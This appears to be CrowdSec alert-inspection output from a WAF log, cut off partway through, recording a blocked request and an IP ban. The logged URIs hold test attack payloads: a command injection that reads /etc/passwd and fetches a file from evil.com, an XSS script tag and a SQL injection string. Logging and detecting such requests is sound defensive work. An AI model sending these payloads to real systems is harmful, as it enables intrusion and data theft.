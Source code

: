 ```bash
# cscli  alerts inspect -d 2172

################################################################################################

 - ID           : 2172
 - Date         : 2025-08-22T09:39:51Z
 - Machine      : 5cf8aff523424fa68e9335f28fec409aIfHabI3W9GsKHzab
 - Simulation   : false
 - Remediation  : true
 - Reason       : crowdsecurity/crowdsec-appsec-outofband
 - Events Count : 6
 - Scope:Value  : Ip:xxx
 - Country      : 
 - AS           : 
 - Begin        : 2025-08-22T09:39:50Z
 - End          : 2025-08-22T09:39:50Z
 - UUID         : a0ad365a-ef08-4c18-af80-20cc02625c35

╭─────────────────────────────────────────────────────────────────────╮
│ Active Decisions                                                    │
├──────────┬─────────────┬────────┬────────────┬──────────────────────┤
│    ID    │ scope:value │ action │ expiration │      created_at      │
├──────────┼─────────────┼────────┼────────────┼──────────────────────┤
│ 19719904 │ Ip:xxx      │ ban    │ 3h57m38s   │ 2025-08-22T09:39:51Z │
╰──────────┴─────────────┴────────┴────────────┴──────────────────────╯

 - Context  :
╭────────────┬─────────────────────────────────────────────────────╮
│     Key    │                        Value                        │
├────────────┼─────────────────────────────────────────────────────┤
│ rules      │ native_rule:901340                                  │
│ target_uri │ /?x=A";cat+/etc/passwd;wget+http://evil.com/payload │
│ target_uri │ /?x=A"<script>alert(1)</script>                     │
│ target_uri │ /?x=A"+OR+"1"="1"+union+select+"fooobar","foo       │
╰────────────┴─────────────────────────────────────────────────────╯

 - Events  :

- Date: 2025-08-22 09:39:50.326505724 +0000 UTC
╭─────────────────────┬──────────────────────────────────────────────────────────────╮
│         Key         │                             Value                            │
├─────────────────────┼──────────────────────────────────────────────────────────────┤
│ datasource_path     │ appsec                                                       │
│ datasource_type     │ appsec                                                       │
│ log_type            │ appsec-info                                                  │
│ remediation_cmpt_ip │ 127.0.0.1                                                    │
│ request_uuid        │ 331f9426-3333-420a-bffa-ab953f44e329                         │
│ rule_ids            │ [901340 930120 932230 932235 932115 932160 942540 949110     │
│                     │ 980170]                                                      │
│ rule_name           │ native_rule:901340                                           │
│ service             │ appsec                                                       │
│ source_ip           │ xxx                                                          │
│ target_host         │ localhost                                                    │
│ target_uri          │ /?x=A";cat+/etc/passwd;wget+http://evil.com/payload          │
╰─────────────────────┴──────────────────────────────────────────────────────────────╯

- Date: 2025-08-22 09:39:50.33919196 +0000 UTC
╭─────────────────────┬──────────────────────────────────────────────────────────────╮
│         Key         │                             Value                            │
├─────────────────────┼──────────────────────────────────────────────────────────────┤
│ datasource_path     │ appsec                                                       │
│ datasource_type     │ appsec                                                       │
│ log_type            │ appsec-info                                                  │
```